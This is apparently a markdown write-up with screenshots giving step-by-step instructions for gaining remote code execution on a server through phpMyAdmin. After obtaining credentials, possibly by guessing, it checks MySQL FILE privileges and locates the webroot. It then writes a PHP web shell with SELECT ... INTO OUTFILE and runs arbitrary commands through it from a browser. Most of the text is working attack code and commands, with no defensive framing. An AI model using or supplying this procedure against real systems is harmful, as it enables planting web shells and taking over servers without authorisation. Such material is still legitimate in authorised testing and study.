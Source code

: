 #### **Prerequisites**

- Access to the phpMyAdmin interface with valid credentials (via credential guessing or other methods).
- `FILE` privileges granted to the MySQL user account.
- The webroot location of the target server must be known and writable by MySQL.
- Note
![image](https://github.com/user-attachments/assets/8b60f1c5-8335-436b-91c9-8ea681ee8143)
This looks like it would be vulnerable to an Insecure Direct Object Reference (IDOR).

#### **Steps to Achieve RCE**

1. **Confirm File Privileges** Run the following query to check if the MySQL user has `FILE` privileges:
    
    ```sql
    SHOW GRANTS FOR CURRENT_USER;
    ```
![image](https://github.com/user-attachments/assets/19dd848f-e020-4aee-b76b-d052fdce2562)

    Look for `FILE` privilege in the output.
    
2. **Determine the Webroot Location**
    
    - Use phpinfo() if accessible via the web server to identify the document root.
    - ![Screenshot 2025-02-28 223302](https://github.com/user-attachments/assets/c63a7679-dfc2-4a98-805f-5955791138c3)
    - Typical webroots:
        - LAMP: `/var/www/html`
        - WAMP/XAMPP: `C:/wamp/www` or `C:/xampp/htdocs`
3. **Create the Webshell** Use the `OUTFILE` function to write a webshell:
    
    ```sql
    SELECT '<?php system($_GET["cmd"]); ?>;' INTO OUTFILE '/path/to/webroot/shell.php';
    ```
    
    Replace `/path/to/webroot/` with the identified webroot (e.g., `C:/wamp/www/`).
    
4. **Access the Webshell** Navigate to the shell via a browser:
    
    ```
    http://<target-ip>/shell.php?cmd=whoami
    ```
    Replace `cmd` with your desired command.
    

---

